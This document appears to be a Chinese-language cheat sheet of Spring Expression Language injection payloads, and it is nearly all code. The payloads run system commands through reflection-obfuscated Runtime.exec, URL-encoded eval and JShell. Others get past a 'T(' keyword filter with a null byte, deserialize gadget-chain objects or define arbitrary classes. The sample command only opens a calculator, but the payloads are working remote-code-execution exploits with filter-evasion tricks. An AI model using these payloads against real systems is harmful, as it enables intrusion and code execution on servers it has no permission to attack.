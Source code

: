 ## JavaScript+反射

```javascript
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)
```

## JavaScript+URL编码

```perl
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)
```

## Jshell

```scss
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

接下来这三个都具体使用可以在https://landgrey.me/blog/15/看到

## 绕过T( 过滤

```perl
T%00(new)
这涉及到SpEL对字符的编码，%00会被直接替换为空
```

## 使用Spring工具类反序列化，绕过new关键字

```scss
T(org.springframework.util.SerializationUtils).deserialize(T(com.sun.org.apache.xml.internal.security.utils.Base64).decode('rO0AB...'))
// 可以结合CC链食用
```

## 使用Spring工具类执行自定义类的静态代码块

```scss
T(org.springframework.cglib.core.ReflectUtils).defineClass('Singleton',T(com.sun.org.apache.xml.internal.security.utils.Base64).decode('yv66vgAAADIAtQ....'),T(org.springframework.util.ClassUtils).getDefaultClassLoader())
```

需要在自定义类写静态代码块 `static{}`
